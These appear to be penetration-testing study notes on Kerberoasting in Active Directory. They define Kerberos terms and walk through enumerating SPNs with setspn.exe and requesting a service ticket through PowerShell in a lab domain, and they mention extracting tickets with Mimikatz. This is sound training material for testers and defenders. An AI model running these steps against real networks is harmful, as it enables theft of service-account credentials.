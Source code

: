 
##### Terminology
`Authenticator` - The output of the function in which passwords are sent (encrypted) over the wire. It looks up the account password (aka pre-auth data). When `DC` receives the authenticator, it looks up the account password (long-term key), decrypts the authenticator and compares the result to its own time. if the timestamps match within 5 minutes it knows the correct password was used and that a replay attack is very unlikely.
`Ticket Granting Ticker (TGT)` #TGT #kerberos - Domain controller will return a TGT to the account once the authenticator has been validated. Inside the TGT is the SID of the account, SIDs of the account groups and a session key. The TGT is only read by domain controllers from the domain where it was issued.  To keep it private the TGT is encrypted with the password of the **KRBTGT** domain account.  As a result, the contents of the TGT cannot be read by the client.
`Service Ticket` - When an account wants access to a resource it will request a service ticket from the domain controller by providing the name of the rsource, its copy of the TGT adn an authenticator generated based on the TGT session key. 
# Kerberoasting - Semi Manual Method

Before `rubeus` existed, stealing or forgin kerberos tickets was a complex, manual process. There are multiple ways to perform These attacks now.

### Enumeratin SPNs with setspn.exe
```shell
C:\htb> setspn.exe -Q */*
#OUTPUT

Checking domain DC=INLANEFREIGHT,DC=LOCAL
CN=ACADEMY-EA-DC01,OU=Domain Controllers,DC=INLANEFREIGHT,DC=LOCAL
        exchangeAB/ACADEMY-EA-DC01
        exchangeAB/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        TERMSRV/ACADEMY-EA-DC01
        TERMSRV/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        ldap/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/ForestDnsZones.INLANEFREIGHT.LOCAL
        ldap/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DomainDnsZones.INLANEFREIGHT.LOCAL
```

 We will focus on `user accounts` and ignore the computer accounts returned by the tool.
 
  Next, (in PowerShell) we can request TGS tickets for an account in the shell above and load them into memory. 
  
  Once they are loaded into memory, we can extract them using `Mimikatz`. Let's try this by targeting a single user:
  ### Targeting a Single User
```powershell
PS C:\htb> Add-Type -AssemblyName System.IdentityModel

PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

#OUTPUT
Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-2
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:36:22 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```
Before moving on, let's break down the commands above to see what we are doing (which is essentially what is used by [Rubeus](https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1) when using the default Kerberoasting method):
